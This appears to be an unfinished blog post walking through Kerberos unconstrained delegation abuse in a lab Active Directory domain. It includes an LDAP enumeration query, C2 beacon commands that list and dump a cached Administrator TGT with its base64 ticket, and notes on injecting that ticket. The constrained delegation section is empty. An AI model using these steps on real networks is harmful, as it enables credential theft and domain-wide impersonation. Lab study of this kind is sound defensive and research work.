

---

Hello fellow packet enjoyers and delegation survivors,

Today we’re (deep) diving into one of those Active Directory “features” that sounds simple on paper but quickly turns into a full-blown existential crisis once you actually try to understand it.

You’ve probably seen the buzzwords thrown around like
S4U2Self, S4U2Proxy, RBCD, forwardable tickets…
and at some point you just nod and pretend it makes sense.

_image from @theluemmel_
well… it doesn’t


So in this post, we’re going to tear this thing apart properly.
Not just “what it does”, but what the KDC is actually doing,  how tickets are being forged, modified, and forwarded, and most importantly… what this looks like on the wire


This post is mainly for two reasons:

1. Beacuse why not
2. To help me understand what the hell is going on (still not fully clicking even after writing this)


If you’ve ever:
- blindly run `Rubeus s4u` and hoped for the best
- been confused why you need a forwardable ticket
- or didn’t understand why delegation sometimes works and sometimes doesn’t

this post is for you.

--- 

## Content

We’ll walk through:

- Unconstrained Delegation
- Constrained Delegation (with and without protocol transition)
- Resource-Based Constrained Delegation


### Fair Warning
Before we go any further, go grab a cup of coffee… or two.

This is not one of those 5 minute read posts where you skim a few diagrams and call it a day.
We’re going deep into the weeds here.. packets, ticket flags, KDC logic, weird edge cases, and the kind of stuff that makes you question your life choices at 3AM.

Now let’s break it.

---
## Lab Setup
Before we start, quick note: I’ll be forcing delegation using tools like Rubeus and [Kerbeus-BOF](https://github.com/RalfHacker/Kerbeus-BOF) instead of setting it up through IIS or SQL, since that gets messy and the packet flow is the same anyway, so no need to overcomplicate it.


I have set up a lab that looks something like this:

| Machine | IP          | Configuration                                  |
| :------ | :---------- | :----------------------------------------------|
| DC01    | 10.0.0.2    | Main DC (`lol.local`)                          |
| SRV02   | 10.0.0.3    | Allowed to Delegate to `DC01` (Constrained)    |
| WS01    | 10.0.0.4    | `TRUSTED_FOR_DELEGATION` (Unconstrained)       |
| Kali    | 10.0.0.129  | Hosting AdaptixC2                              |

> NOTE: Most of the commands we’ll be using require `SYSTEM` level privileges on the machine to extract tickets.
{: .prompt-warning }
---

## What Is Delegation?
Kerberos delegation lets a service act as a user when interacting with other services. Imagine you log into some front-end web app, but behind the scenes it needs to talk to a database or a file server to actually get things done. At that point, the app needs a way to access those back-end resources as you, not as itself.


We know when a user logs in during the initial logon, he obtain a TGT which he can use to grab service tickets for whatever they need (enabling SSO). But in a scenario like this how does the web server get a SQL service ticket as that user?
that’s the problem delegation was built to solve.

<!-- When user logs in he obtain a TGT which is used to requset TGS for various services, which implements the sense of SSO. But in a scenario like this how could the web server obtain a SQL service ticket for the user? this what delegation was made for -->


---

## Unconstrained Delegation
I won’t go too deep into this part with traffic analysis since [@0x4148](https://x.com/0x4148) already covered this in far more detail in his blog[^blog].


But in general Unconstrained Delegation is a configuration where any account (usually a machine account) is trusted to store TGT of any user who auth to that machine and can be used to request a TGS to any service in the entire domain. this means that we can impersonate **any** user to access **any** service.


So if we have control over a machine with `TRUSTED_FOR_DELEGATION` and a high-privileged user authenticates to it, we can then extract their TGT and use it to request service tickets to any other service.

### Enumeration
we can use ldap query to filter only computer accounts with [SAM-Account-Type attribute](https://learn.microsoft.com/en-us/windows/win32/adschema/a-samaccounttype) of `0x30000001` which resolves in decimal to `805306369` and using bitwise AND with trusted for delegation flag `524288` that can be found [here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties) 
```bash
beacon> ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname

--------------------
sAMAccountName: DC01$
--------------------
sAMAccountName: WS01$
retrieved 2 results total

```
As expected we see that `WS01$` is configured with `TRUSTED_FOR_DELEGATION`

> Domain Controllers are configured with unconstrained delegation by default, but that’s not particularly useful. If you’ve compromised the DC, it's already game over.
{: .prompt-info }

### Exploitation
If we forced auth with high level user and used a tool like [Kerbeus-BOF](https://github.com/RalfHacker/Kerbeus-BOF) to see what tickets are cached we can see that a high level user (administrator) has authenticated to the `WS01` and `WS01` cached it's TGT (we can tell it is TGT because the service is `KRBTGT`) 

```bash
beacon> krb_triage
[+] Kerbeus TRIAGE by RalfHacker
[+] host called home, sent: 13289 bytes
[+] received output:

Action: List Kerberos Tickets (All Users)


--------------------------------------------------------------------------------------------------------------------------
| LUID        | Client                                   | Service                                  |            End Time |
--------------------------------------------------------------------------------------------------------------------------
| 0:0x24ab54  | Administrator @ LOL.LOCAL                | krbtgt/LOL.LOCAL                         | 28.03.2026 04:54:43 |
| 0:0x1759f4  | Administrator @ LOL.LOCAL                | krbtgt/LOL.LOCAL                         | 28.03.2026 04:05:11 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:42 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:42 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | LDAP/DC01.lol.local/lol.local            | 28.03.2026 04:16:42 |
| 0:0x953ff   | pixel @ LOL.LOCAL                        | cifs/DC01                                | 28.03.2026 04:16:42 |
| 0:0x953db   | pixel @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:42 |
| 0:0x953db   | pixel @ LOL.LOCAL                        | LDAP/DC01.lol.local/lol.local            | 28.03.2026 04:16:42 |
| 0:0x3e4     | ws01$ @ LOL.LOCAL                        | krbtgt/LOL.LOCAL                         | 28.03.2026 04:16:03 |
| 0:0x3e7     | ws01$ @ LOL.LOCAL                        | LDAP/DC01.lol.local/lol.local            | 28.03.2026 04:16:03 |
--------------------------------------------------------------------------------------------------------------------------
```


Now we can dump the ticket:
```bash
beacon> krb_dump /luid:24ab54
[+] Kerbeus DUMP by RalfHacker
[+] host called home, sent: 16794 bytes
[+] received output:

Action: List Kerberos Tickets( LUID: 24ab54)

[*] Target LUID     : 24ab54

UserName                : Administrator
Domain                  : LOL
LogonId                 : 0:0x24ab54
Session                 : 0
UserSID                 : S-1-5-21-1558345677-4257867870-1842270656-500
Authentication package  : Kerberos
LogonServer             : 
UserPrincipalName       : 

[*] Cached tickets: (1)

  [0]
	ClientName               :  Administrator @ LOL.LOCAL
	ServiceRealm             :  krbtgt/LOL.LOCAL @ LOL.LOCAL
	StartTime (UTC)          :  27.03.2026 18:54:43
	EndTime (UTC)            :  28.03.2026 04:54:43
	RenewTill (UTC)          :  03.04.2026 18:54:43
	Flags                    :  forwardable forwarded renewable pre_authent enc_pa_rep 
	KeyType                  :  aes256_cts_hmac_sha1

	doIFMjCCBS6gAwIBBaEDAgEWooIEOzCCBDdhggQzMIIEL6ADAgEFoQsbCUxPTC5MT0NBTKIeMBygAwIBAqEVMBMbBmtyYnRndBsJTE9MLkxPQ0FMo4ID+TCCA/WgAwIBEqEDAgECooID5wSCA+P+0oTz/pdfSRSTlvEM0rZBBwJjTfk5Gyzp1kIK780fa3mU5FL8aiUnX7wuYj96OyoI86jHD+QoTYijKv87OoP6oVyzO3Mn/1OQTSD+XJ4W8FQ8iiiqaAHxWJozDnD1Hi7I+QTESvfyuaqQ/DRKSHppJy5ED38PxPD1L4V5kQFoRc3vG6Ue8KepspmHpWkOF5HWq5VjbUGJmQksQAKRComH5EmHiyZ7vNQtxkABjWNI4LT2UTUrfF2fimPt0bxyigk0nfcZMeo05eQnmSkj4mXRStGcGYWGzxI47VkomnSti9m/uOngUvGFG7iBKXbzCl/8p9PzRIBNLlSwsyJ1yONJuRzlvexdm7IXojMr5dlAJsJMLDad2USGaGdD/GkC5XpFnnSJfgGUsrQeyUwgx+yqfCkn8Qw+97W2S9UXXCDYt+9EKum8hNUHHE/njLaGOrncv6ioF5tjaRiSoKvR0XaTeBfMPbO+XNnBsbFwONPs8c+1S46zu5bLVvu6c2qUtN8YlOYjlnSDXuZQJ2fzcgQzooyBa6+yO6q9FKY5BYL301CfBJsxohnpfZWeVXaRbcY8rDNDEIG6JWZ/EqNqcTypMzOfAu+PunzeRabgnVc0DPg5ppCcqY9RRbxQzdFK1W9lGFIqMl17V55wyjGtoEj0bz5gDh1nk771l6EmbdisNnIC4S5P88fEgV78JyjsMdLLfJfBJlllRYM4IksteYxJTlcJGYOOr4kPGOGXbIzfsJvm+j0HK+8XhanD2MDBXaHJV/ZHtVgUw6xkgH2uENaHFbEmnxz+Ga/WnHzImPSelRPk0bWdp/E/J0upPZP0mvw+3NzATneDrwi7uVHrEKRSXLQoqFT/EltpTaJ8Vhcx3U79Q0UbAHXOhuHWEiwbz/liX+MVHIO70lJVWh8iU3pRQWBoQHD2m+RggPVP27tPzg4WBN19EZNePAJgBXL43YfNUsLgmgMbj72ptwvaemf23+DuIIqzsiQQmeWwl6QE2X9UAR1wHDLCfukC7eEEt4wLpthCSbnfynpOXia3hlADYTXq0dPw5uz6WyPWyD73n51Me+OXm3JmJ7Ify/6pgSArdL7Pz2pFYDRYpheW68WeJNaEZ1QTsc4XqIGLW2Rd72n3AFlOSdwoxZ7/wcF/RIXw7muO5bjWCX5Y1Cto73A/2ez3AGyj9BT92OpVY05Fv0iYPR6Ya5XEyKdDArrI6c8ZOZIdQ8Yf0kV5SOEGoZ65pVm7cT6PKfNl2OMouN/0CjaoVZE17dqxSluKqgpnuu0XXXoju3VqekNiv5GB8/uG2ikkqDG+15ZspAoqmZ91KamMlaOB4jCB36ADAgEAooHXBIHUfYHRMIHOoIHLMIHIMIHFoCswKaADAgESoSIEICFUey9/gH7rWSdtG939JsKtp4GCLlm4BZSQAjgeq77doQsbCUxPTC5MT0NBTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAGChAAClERgPMjAyNjAzMjcxODU0NDNaphEYDzIwMjYwMzI4MDQ1NDQzWqcRGA8yMDI2MDQwMzE4NTQ0M1qoCxsJTE9MLkxPQ0FMqR4wHKADAgECoRUwExsGa3JidGd0GwlMT0wuTE9DQUw=
```
We can see that it has `forwardable` flag enabled and that is exactly what we need in order to use it to request TGS to other services.


There are Numours ways to use this ticket one way is with Rubeus `createnetonly`, which uses the `CreateProcessWithLogonW()` API to spawn a new hidden process with logon type 9 (NewCredentials). Then we can then inject the ticket into that session and use it for network authentication.

---

## Constrained Delegation


---
another footnote[^2]
## Refrences / Footnote


[Windows authentication attacks part 2 – kerberos](https://blog.redforce.io/windows-authentication-attacks-part-2-kerberos/)

[^blog]: [Windows authentication attacks part 2 – kerberos](https://blog.redforce.io/windows-authentication-attacks-part-2-kerberos/)
[^2]: The 2nd footnote source

